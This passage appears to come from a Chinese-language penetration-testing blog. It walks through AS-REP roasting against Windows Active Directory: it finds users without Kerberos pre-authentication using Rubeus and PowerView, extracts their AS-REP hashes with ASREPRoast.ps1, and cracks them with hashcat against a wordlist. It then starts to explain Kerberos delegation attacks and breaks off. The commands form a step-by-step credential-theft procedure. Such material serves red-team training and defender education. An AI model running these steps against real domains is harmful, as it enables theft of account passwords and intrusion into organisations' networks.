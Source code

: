 [![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132642.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132642.png)

### How to get HASH

**1.Rubeus**

```
Rubeus.exe asreproast
```

然后就会搜索域中不需要 kerberos 预验证的用户，并获得 ASREP。

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132654.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132654.png)

**2.Empire 框架与 ASREPRoast.ps1**

使用 Empire 框架下的 powerview.ps1 查找域中设置了 “不需要 kerberos 预身份验证” 的用户

```
Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired
```

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132707.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132707.png)然后用 ASREPRoast.ps1 ：[https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) 获取指定用户的 AS-REPhash

```
Import-Module ASREPRoast.ps1
Get-ASREPHash -USER xx -Domain xx |Out-file -Encoding ASCII hash.txt
```

就会生成一个 hash 数据文件了

### How to crack hash

将生成的 HASH 保存起来，并在下图处加入 $23

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132743.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132743.png)

然后丢给 hashcat 跑

```
hashcat -m 18200 hash.txt pass.txt
```

注意这里的 pass.txt 是自己的明文字典… 之前我还一直以为是爆破出来的结果.  
原来是一个一个的用明文字典去爆破。

委派攻击
----

### 域委派

域委派是一种域内主机的行为，使某个服务可以以访问的用户的身份去访问另外一个服务。  
为什么需要域委派呢，比如现在有 web 服务器和文件服务器，当用户 A 访问 web 服务器去请求某个资源时，web 服务器上本身并没有该资源，所以 web 服务器就会从文件服务器上调用这个资源，其中发生的过程若以域委派的形式进行，那么就是：  
用户 A 访问 web 服务器，服务器再以用户 A 的身份去访问文件服务器。  
发生域委派的服务一般为机器账户和服务账户。  
域委派分为三种：非约束性委派，约束性委派，基于资源的约束性委派

